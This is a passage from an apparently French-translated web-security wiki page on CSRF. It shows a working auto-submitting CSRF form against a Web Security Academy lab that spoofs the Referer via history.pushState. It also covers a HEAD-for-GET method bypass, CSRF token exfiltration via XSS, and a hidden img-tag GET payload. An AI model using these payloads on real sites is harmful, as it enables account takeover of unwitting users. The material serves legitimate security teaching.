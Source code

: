 {% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

Pour définir le nom de domaine du serveur dans l'URL que le Référent va envoyer à l'intérieur des paramètres, vous pouvez faire :
```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```
### **Contournement de la méthode HEAD**

La première partie de [**ce compte rendu CTF**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) explique que [le code source d'Oak](https://github.com/oakserver/oak/blob/main/router.ts#L281), un routeur est configuré pour **traiter les requêtes HEAD comme des requêtes GET** sans corps de réponse - une solution de contournement courante qui n'est pas propre à Oak. Au lieu d'un gestionnaire spécifique pour les requêtes HEAD, elles sont simplement **transmises au gestionnaire GET mais l'application supprime simplement le corps de réponse**.

Par conséquent, si une requête GET est limitée, vous pouvez simplement **envoyer une requête HEAD qui sera traitée comme une requête GET**.

## **Exemples d'exploitation**

### **Exfiltration du jeton CSRF**

Si un **jeton CSRF** est utilisé comme **défense**, vous pouvez essayer de **l'exfiltrer** en exploitant une vulnérabilité [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) ou une vulnérabilité [**Dangling Markup**](dangling-markup-html-scriptless-injection.md).

### **GET en utilisant des balises HTML**
```markup
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```
D'autres balises HTML5 qui peuvent être utilisées pour envoyer automatiquement une requête GET sont :
